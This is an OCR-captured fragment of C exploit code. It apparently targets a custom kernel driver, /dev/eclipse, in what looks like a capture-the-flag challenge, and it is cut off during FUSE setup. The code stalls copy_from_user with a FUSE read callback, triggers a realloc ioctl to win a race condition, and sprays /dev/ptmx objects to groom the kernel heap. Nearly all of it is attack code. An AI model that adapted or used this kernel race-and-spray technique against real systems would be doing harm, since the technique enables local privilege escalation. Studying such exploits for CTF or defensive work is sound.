 ```c
// IMPORTANT: used to trigger race condition
static int read_callback(const char *path,
                         char *file_buf, size_t size, off_t offset,
                         struct fuse_file_info *fi) {
    printf("[+] read_callback triggered!\n");
    printf("    path  : %s\n", path);
    printf("    size  : 0x%lx\n", size);
    printf("    offset: 0x%lx\n", offset);

    if (strcmp(path, "/pwn") == 0 && race_active) {
        printf("[+] Triggering race condition during copy_from_user!\n");

        // Open a new fd to the same device
        int race_fd = open("/dev/eclipse", O_RDWR);
        if (race_fd != -1) {
            struct user_req realloc_req;
            realloc_req.size = 1023; // Different size to force reallocation
            realloc_req.data = NULL;

            printf("[+] Calling realloc during copy_from_user...\n");
            ioctl(race_fd, CMD_REALLOC, &realloc_req);
			for (int i = 0; i < 0x20; i++) {
				ptmx[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
				if (ptmx[i] == -1) fatal("/dev/ptmx");
			}
            close(race_fd);
        }

        // Copy the data
        if (offset + size <= sizeof(fuse_file_data)) {
            memcpy(file_buf, fuse_file_data + offset, size);
        }
    }

    return size;
}

static struct fuse_operations fops = {
    .getattr = getattr_callback,
    .open = open_callback,
    .read = read_callback,
};

int setup_done = 0;

// CREATE FUSE FILESYSTEM
void *fuse_thread(void *_arg) {
    struct fuse_args args = FUSE_ARGS_INIT(0, NULL);
    struct fuse_chan *chan;
    struct fuse *fuse;

    if (mkdir("/tmp/test", 0777) && errno != EEXIST)
        fatal("mkdir(\"/tmp/test\")");

    if (!(chan = fuse_mount("/tmp/test", &args)))
        fatal("fuse_mount");

    if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) {
        fuse_unmount("/tmp/test", chan);
        fatal("fuse_new");
    }

    fuse_set_signal_handlers(fuse_get_session(fuse));
```